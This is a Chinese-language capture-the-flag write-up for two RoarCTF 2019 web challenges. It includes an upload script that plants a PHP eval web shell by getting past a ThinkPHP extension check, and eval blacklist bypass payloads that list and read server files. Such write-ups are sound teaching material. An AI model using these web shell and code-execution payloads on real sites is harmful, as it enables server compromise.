 # [RoarCTF 2019]

## 0x01 Simple Upload

首页给了源码

```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller
{
    public function index()
    {
        show_source(__FILE__);
    }
    public function upload()
    {
        $uploadFile = $_FILES['file'] ;
        
        if (strstr(strtolower($uploadFile['name']), ".php") ) {
            return false;
        }
        
        $upload = new \Think\Upload();// 实例化上传类
        $upload->maxSize  = 4096 ;// 设置附件上传大小
        $upload->allowExts  = array('jpg', 'gif', 'png', 'jpeg');// 设置附件上传类型
        $upload->rootPath = './Public/Uploads/';// 设置附件上传目录
        $upload->savePath = '';// 设置附件上传子目录
        $info = $upload->upload() ;
        if(!$info) {// 上传错误提示错误信息
          $this->error($upload->getError());
          return;
        }else{// 上传成功 获取上传文件信息
          $url = __ROOT__.substr($upload->rootPath,1).$info['file']['savepath'].$info['file']['savename'] ;
          echo json_encode(array("url"=>$url,"success"=>1));
        }
    }
}
```

根据Thinkphp的URL构造

``/index.php/home/index/upload``可以上传文件

``$upload->upload() ;``无参数可以上传任意个数文件而``allowExts``只能限制第一个的后缀名

然后再利用Upload ``'saveName'     => array('uniqid', ''),``基于时间命名的特性进行爆破shell文件名,getshell,（这里是直接把shell变成flag了....）

```php
import requests
import base64

url = "http://70e50a65-e216-4fd2-aa95-a79ba62daaa7.node3.buuoj.cn/index.php/home/index/upload"

files = {
            "file":("a.txt",'a'),
            "file1":("b.php", '<?php echo "233";eval($_REQUEST["eki"]);'),
        }

data = {"upload":"Submit"}

r = requests.post(url=url, data=data, files=files)
print(r.text) 
```

## 0x02 Easy Calc

点进去是一个简单的计算器

输入1+1返回2

输入{{1+1}}提示无法计算

看下源代码

```js
    $('#calc').submit(function(){
        $.ajax({
            url:"calc.php?num="+encodeURIComponent($("#content").val()),
            type:'GET',
            success:function(data){
                $("#result").html(`<div class="alert alert-success">
            <strong>答案:</strong>${data}
            </div>`);
            },
            error:function(){
                alert("这啥?算不来!");
            }
        })
        return false;
    })
```

调用了calc.php,访问看一下

```php
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```

使用了eval()意味着我们只要能绕过blacklist就能执行任意命令。

测试了一下只能输入运算符和数字，怎么办....

查阅资料发现只要在num前加个空格就可以绕过waf对num的数字检测了

```
poc=/calc.php?%20num=phpinfo()
```

Exp:

```
payload=/calc.php?%20num=var_dump(scandir(chr(47))) //"/" ""被ban,用chr绕过

1array(24) { [0]=> string(1) "." [1]=> string(2) ".." [2]=> string(10) ".dockerenv" [3]=> string(3) "bin" [4]=> string(4) "boot" [5]=> string(3) "dev" [6]=> string(3) "etc" [7]=> string(5) "f1agg" [8]=> string(4) "home" [9]=> string(3) "lib" [10]=> string(5) "lib64" [11]=> string(5) "media" [12]=> string(3) "mnt" [13]=> string(3) "opt" [14]=> string(4) "proc" [15]=> string(4) "root" [16]=> string(3) "run" [17]=> string(4) "sbin" [18]=> string(3) "srv" [19]=> string(8) "start.sh" [20]=> string(3) "sys" [21]=> string(3) "tmp" [22]=> string(3) "usr" [23]=> string(3) "var" }

payload=var_dump(readfile(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))

flag{ec5c334b-a625-4a44-bede-7fb5dd20ef87} int(43)
```

### 参考资料

https://www.freebuf.com/articles/web/213359.html